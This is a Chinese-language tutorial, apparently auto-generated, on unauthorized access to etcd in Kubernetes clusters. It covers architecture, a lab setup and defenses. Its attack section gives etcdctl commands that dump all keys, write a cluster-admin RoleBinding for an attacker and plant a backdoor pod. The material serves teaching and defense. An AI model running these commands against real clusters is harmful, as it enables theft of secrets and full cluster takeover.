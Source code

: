 # ETCD未授权访问利用的基本概念

## 1. 概述

ETCD是一个分布式键值存储系统，常用于Kubernetes等分布式系统中存储配置数据。由于其重要性，ETCD的安全性至关重要。未授权访问利用是指攻击者能够未经授权访问ETCD，从而获取或篡改敏感数据，甚至控制整个集群。

## 2. 技术原理解析

### 2.1 ETCD架构

ETCD采用Raft一致性算法，确保数据的一致性和高可用性。其架构包括：

- **客户端**：与ETCD交互的应用程序。
- **服务器**：存储数据的节点，通常为集群中的多个节点。
- **Raft协议**：用于节点间的数据同步和一致性维护。

### 2.2 未授权访问机制

ETCD默认监听在2379端口，若未配置身份验证和访问控制，攻击者可以直接访问该端口，进行数据读取或写入。常见的未授权访问原因包括：

- **未启用TLS**：数据传输未加密，容易被中间人攻击。
- **未配置身份验证**：未设置用户名和密码，或未启用客户端证书验证。
- **防火墙配置不当**：未限制访问来源IP，允许任意IP访问。

### 2.3 底层实现机制

ETCD使用gRPC进行通信，gRPC基于HTTP/2协议。攻击者可以通过发送合法的gRPC请求，直接与ETCD交互。ETCD的API接口包括：

- **KV存储**：用于键值对的增删改查。
- **Watch**：用于监听键值的变化。
- **Lease**：用于设置键值的租约。

## 3. 变种和高级利用技巧

### 3.1 数据泄露

攻击者可以通过未授权访问获取ETCD中的所有键值对，包括Kubernetes的配置、密钥、证书等敏感信息。

### 3.2 数据篡改

攻击者可以修改ETCD中的键值对，例如修改Kubernetes的配置，导致集群行为异常或服务中断。

### 3.3 提权攻击

攻击者可以通过修改Kubernetes的RBAC配置，提升自己的权限，从而控制整个集群。

### 3.4 持久化后门

攻击者可以在ETCD中插入恶意键值对，例如修改Kubernetes的Pod配置，使其在集群重启后仍然执行恶意代码。

## 4. 攻击步骤和实验环境搭建指南

### 4.1 实验环境搭建

#### 4.1.1 安装ETCD

```bash
# 下载ETCD
wget https://github.com/etcd-io/etcd/releases/download/v3.5.0/etcd-v3.5.0-linux-amd64.tar.gz
tar -xvf etcd-v3.5.0-linux-amd64.tar.gz
cd etcd-v3.5.0-linux-amd64

# 启动ETCD
./etcd
```

#### 4.1.2 配置ETCD

默认情况下，ETCD未启用身份验证和TLS。可以通过以下命令启动ETCD并启用TLS：

```bash
./etcd --cert-file=server.crt --key-file=server.key --client-cert-auth --trusted-ca-file=ca.crt
```

### 4.2 攻击步骤

#### 4.2.1 未授权访问

假设ETCD未启用身份验证和TLS，攻击者可以直接访问ETCD：

```bash
# 使用etcdctl工具访问ETCD
export ETCDCTL_API=3
etcdctl --endpoints=http://<ETCD_IP>:2379 get / --prefix
```

#### 4.2.2 数据泄露

通过上述命令，攻击者可以获取ETCD中的所有键值对。

#### 4.2.3 数据篡改

攻击者可以修改ETCD中的键值对：

```bash
etcdctl --endpoints=http://<ETCD_IP>:2379 put /mykey myvalue
```

#### 4.2.4 提权攻击

攻击者可以通过修改Kubernetes的RBAC配置，提升自己的权限：

```bash
etcdctl --endpoints=http://<ETCD_IP>:2379 put /registry/rolebindings/default/myrolebinding '{"apiVersion":"rbac.authorization.k8s.io/v1","kind":"RoleBinding","metadata":{"name":"myrolebinding","namespace":"default"},"roleRef":{"apiGroup":"rbac.authorization.k8s.io","kind":"ClusterRole","name":"cluster-admin"},"subjects":[{"kind":"User","name":"attacker"}]}'
```

#### 4.2.5 持久化后门

攻击者可以在ETCD中插入恶意键值对，例如修改Kubernetes的Pod配置：

```bash
etcdctl --endpoints=http://<ETCD_IP>:2379 put /registry/pods/default/mypod '{"apiVersion":"v1","kind":"Pod","metadata":{"name":"mypod","namespace":"default"},"spec":{"containers":[{"name":"mycontainer","image":"malicious-image","command":["/bin/sh","-c","echo pwned"]}]}}'
```

## 5. 防御措施

### 5.1 启用TLS

确保ETCD使用TLS加密通信，防止中间人攻击。

### 5.2 配置身份验证

启用ETCD的身份验证机制，例如用户名密码或客户端证书验证。

### 5.3 限制访问来源IP

通过防火墙或安全组限制访问ETCD的来源IP，仅允许可信IP访问。

### 5.4 定期审计

定期审计ETCD的访问日志和配置，及时发现异常行为。

## 6. 总结

ETCD未授权访问利用是一种严重的安全威胁，可能导致数据泄露、篡改、提权攻击和持久化后门。通过启用TLS、配置身份验证、限制访问来源IP和定期审计，可以有效防御此类攻击。

---

*文档生成时间: 2025-03-14 13:04:17*

